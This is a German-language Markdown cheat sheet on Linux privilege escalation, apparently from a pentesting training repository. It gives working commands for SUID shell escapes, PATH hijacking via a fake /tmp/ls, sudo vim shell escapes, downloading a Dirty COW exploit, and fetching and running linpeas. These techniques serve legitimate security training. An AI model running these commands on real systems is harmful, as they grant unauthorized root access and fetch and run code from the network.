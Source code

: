 # Linux Privilege Escalation


---

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [1. System Checks & Enumeration](#1-system-checks--enumeration)
- [2. SUID-Binaries & Exploits](#2-suid-binaries--exploits)
- [3. Exploitable Binaries & Schwachstellen](#3-exploitable-binaries--schwachstellen)
- [4. Kernel Exploits (lokale Ausnutzung)](#4-kernel-exploits-lokale-ausnutzung)
- [Tools zur Privilege Escalation](#tools-zur-privilege-escalation)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung

Diese Datei dient als strukturiertes Cheat Sheet zur Privilege Escalation auf Linux-Systemen im Rahmen von Post-Exploitation. Sie hilft Pentestern und Sicherheitsanalysten, systematisch nach Wegen zu suchen, um aus eingeschränkten Benutzerrechten Root-Rechte zu erlangen. **Ausschließlich für legale Schulungszwecke gedacht.**

---

## 1. System Checks & Enumeration

### Grundlegende Informationen

```bash
uname -a              # Kernel- und Systeminformationen
cat /etc/os-release   # Distribution & Versionsinfo
id                    # Benutzer & Gruppen
whoami                # aktueller Nutzer
hostname              # Hostname anzeigen
```

### Berechtigungen

```bash
sudo -l               # Welche Befehle kann der Benutzer mit sudo ausführen?
groups                # Gruppenzugehörigkeit
```

### Filesystem nach Hinweisen durchsuchen

```bash
find / -perm -4000 2>/dev/null       # SUID-Binaries
find / -type f -perm -u=s 2>/dev/null
find / -writable -type d 2>/dev/null # beschreibbare Verzeichnisse
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## 2. SUID-Binaries & Exploits

SUID-Binaries werden mit den Rechten des Dateieigentümer (oft root) ausgeführt.

### Bekannte gefährliche SUIDs:

```bash
/usr/bin/vim
/usr/bin/find
/usr/bin/nmap
/usr/bin/perl
/usr/bin/python
```

### GTFOBins — SUID Missbrauch

GTFOBins ist eine Sammlung von Binaries, die sich zur Escalation nutzen lassen:
[https://gtfobins.github.io/](https://gtfobins.github.io/)

Beispiel (wenn `find` SUID ist):

```bash
find . -exec /bin/sh -p \; -quit
```

---

## 3. Exploitable Binaries & Schwachstellen

### PATH-Variable manipulieren

```bash
# Falls ein Skript ein nicht vollqualifiziertes Kommando wie 'ls' aufruft
# und root-Rechte hat:
export PATH=/tmp:$PATH
echo "/bin/sh" > /tmp/ls
chmod +x /tmp/ls
```

### Cronjobs & Writable Scripts

```bash
cat /etc/crontab
ls -la /etc/cron.*
# Suche nach Cronjobs, die als root laufen und beschreibbare Skripte ausführen
```

### Sudo ohne Passwort

```bash
# Wenn sudo -l sowas zeigt:
(root) NOPASSWD: /usr/bin/vim
sudo vim -c '!sh'
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## 4. Kernel Exploits (lokale Ausnutzung)

Falls keine "Low Hanging Fruits" über SUIDs/Sudo/etc., dann auf Kernel-Level prüfen:

### Kernel-Version ermitteln

```bash
uname -r
```

### Exploit-Sammlung

* [https://www.exploit-db.com/](https://www.exploit-db.com/)
* [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

> **Wichtig:** Nicht jeder Exploit funktioniert auf jeder Version. Führe sie in isolierter Umgebung aus (VM).

Beispiel: Dirty COW (CVE-2016-5195)

```bash
wget https://www.exploit-db.com/raw/40616
# Kompilieren und ausführen, um Root-Zugriff zu erlangen
```

---

## Tools zur Privilege Escalation

| Tool                                                                        | Zweck                                              |
| --------------------------------------------------------------------------- | -------------------------------------------------- |
| [linpeas.sh](https://github.com/carlospolop/PEASS-ng)                       | Automatisiertes Enumeration-Skript                 |
| [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) | Zeigt Kernel-Exploits für das Zielsystem an        |
| pspy                                                                        | Prozesse und Cronjobs ohne Root anzeigen           |
| LES (LinEnum)                                                               | Systematische Prüfung auf Escalation-Möglichkeiten |

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---